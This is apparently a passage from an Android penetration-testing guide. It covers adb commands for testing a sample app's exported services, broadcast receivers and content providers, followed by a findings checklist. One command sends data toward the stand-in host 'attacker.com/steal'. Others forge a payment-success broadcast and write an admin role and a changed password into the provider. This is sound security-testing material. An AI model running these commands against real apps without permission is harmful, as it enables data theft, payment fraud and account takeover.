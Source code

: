 **Test Exported Services:**
```bash
# Start service
adb shell am startservice -n com.example.targetapp/.BackgroundService

# With data
adb shell am startservice -n com.example.targetapp/.DataSyncService \
  --es "sync_url" "http://attacker.com/steal"
```

**Test Broadcast Receivers:**
```bash
# Send broadcast
adb shell am broadcast -a com.example.targetapp.CUSTOM_ACTION

# With data
adb shell am broadcast -a com.example.targetapp.PAYMENT_SUCCESS \
  --es "transaction_id" "fake123" \
  --es "amount" "9999"
```

**Test Content Providers:**
```bash
# Query content provider
adb shell content query --uri content://com.example.targetapp.provider/users

# Insert data
adb shell content insert --uri content://com.example.targetapp.provider/users \
  --bind username:s:"hacker" \
  --bind role:s:"admin"

# Update data
adb shell content update --uri content://com.example.targetapp.provider/users/1 \
  --bind password:s:"hacked123"

# Delete data
adb shell content delete --uri content://com.example.targetapp.provider/users/1
```

---

**Step 7: Document Dynamic Analysis Findings**

Create findings document:
```
Dynamic Analysis Findings:

[ ] Logging Issues
    - Sensitive data in logs: Yes/No
    - Details: [list what was found]
    - Screenshots: [attach]

[ ] Network Traffic
    - HTTP used: Yes/No
    - Credentials over HTTP: Yes/No
    - SSL Pinning: Implemented/Not implemented
    - SSL Pinning bypassed: Yes/No
    - Sensitive data in requests: [list]

[ ] Data Storage
    - SharedPreferences encrypted: Yes/No
    - Sensitive data in SharedPreferences: [list]
    - Database encrypted: Yes/No
    - Sensitive data in database: [list]
    - Files on SD card: [list]

[ ] Runtime Security
```